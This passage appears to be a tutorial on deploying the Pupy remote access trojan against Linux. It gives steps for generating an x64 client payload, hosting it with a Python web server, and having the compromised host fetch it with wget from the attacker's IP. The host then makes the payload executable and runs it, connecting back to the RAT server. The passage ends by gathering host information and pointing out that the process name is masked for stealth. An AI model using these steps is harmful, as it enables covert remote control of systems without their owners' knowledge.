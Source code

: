 Reference:

> gen -h

6. Create a load under Linux OS with x64 architecture:
```bash
gen -f client -O linux -A x64 connect
```
The binary file appears in the /projects/default/output directory, then you need to transfer it to the compromised host using the web server built into python.

7. Go to the directory with the file:
```bash
$ cd /tmp/projects/default/output
```
8. Start the server:
```bash
$ python3 -m http.server 3000
```
9. Determine our ip-address:
```bash
$ ip a | grep inet
```
10. Run the following command on the compromised host:
```bash
wget http://<Your IP>:3000/pupyx64.Nla2MY.lin # The IP address and file name must be determined from the output of previous commands
```
11. Give the file permission to execute:
```bash
chmod +x pupy*  # is replaced with all files starting with pupy
```
12. Execute the file and wait for it to be connected to the RAT server:
```bash
 ./pupy*
```
13. After a successful connection, collect information about the host:
```bash
info
```
14. Let's see how the RAT process looks in the system:
```bash
ps aux
```
The process name is masked, which provides stealth when managing a remote computer.
